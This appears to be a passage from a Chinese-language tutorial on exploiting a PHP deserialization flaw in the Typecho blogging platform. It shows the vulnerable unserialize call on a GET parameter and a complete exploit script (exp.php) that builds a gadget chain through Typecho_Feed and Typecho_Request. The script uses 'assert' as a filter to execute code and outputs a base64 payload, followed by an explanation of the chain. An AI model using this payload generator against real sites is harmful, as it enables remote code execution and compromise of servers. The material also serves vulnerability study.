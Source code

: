 ```php
            $this->_filter = array();
        }

        return $value;
    }
}
$config = unserialize(base64_decode($_GET['__typecho_config']));
$db = new Typecho_Db($config['adapter']);
?>
```

### 反序列化利用链的应用

下面我们构造对反序列化应用链的利用代码：

```php
/*exp.php*/
<?php
class Typecho_Feed
{
    private $item;
    
    public function __construct(){
        $this->item = array(
            'author' => new Typecho_Request(),
        );
    } 
}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName'] = 'phpinfo()';
        $this->_filter[0] = 'assert';
    }
}
$exp = array(
 'adapter' => new Typecho_Feed()
);
echo base64_encode(serialize($exp));
?>
```

#### 1.实例化类对象

生成对象 `$exp`，且其 ***'adapter'*** 参数会实例化 `Typecho_Feed` 类，'adapter'与 typecho.php获取反序列化对象处相呼应

```
$db = new Typecho_Db($config['adapter']);
```

`Typecho_Feed` 类的构造函数中，又实例化 `Typecho_Request` 类对象；在 `Typecho_Request` 对象中，传入我们想执行的函数和参数。
